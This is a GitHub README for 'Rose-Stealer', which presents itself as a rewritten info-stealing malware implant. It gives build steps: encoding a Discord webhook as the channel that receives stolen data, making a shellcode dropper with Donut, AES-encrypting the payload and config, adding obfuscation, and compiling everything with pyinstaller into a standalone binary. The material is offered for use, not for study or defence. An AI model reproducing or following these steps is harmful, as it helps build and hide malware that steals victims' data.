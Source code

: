 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=ENCODED_DISCORD_WEBHOOK <--- Put the webhook output here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py client\shellc.dat client\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py client\config.ini client\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/client/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit)
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --onefile --add-data "client\shellc.aes;." --add-data "client\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp client\main.py`
